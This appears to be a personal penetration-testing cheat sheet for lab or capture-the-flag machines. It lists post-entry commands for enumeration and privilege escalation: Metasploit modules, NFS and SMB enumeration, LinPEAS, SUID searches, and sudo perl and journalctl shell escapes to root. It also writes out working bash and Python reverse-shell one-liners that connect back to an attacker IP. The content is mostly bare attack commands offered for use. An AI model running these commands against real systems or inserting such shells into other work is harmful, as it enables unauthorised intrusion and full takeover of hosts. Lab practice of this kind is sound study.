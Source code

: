# Attempt to Elevate permissions after entry



## Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

## Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

## Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```

# Windows Specific

User Details
```
net user username
```
reverse shell exe

```
/usr/share/windows-resources/binaries/nc.exe
```
# Linux Specific

```sudo -l```

```whoami```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


# FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


# Samba share

## Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

## Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


## Inspect Samba Share

```
smbclient //ip/sambashare
```


## Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

# PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

# JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
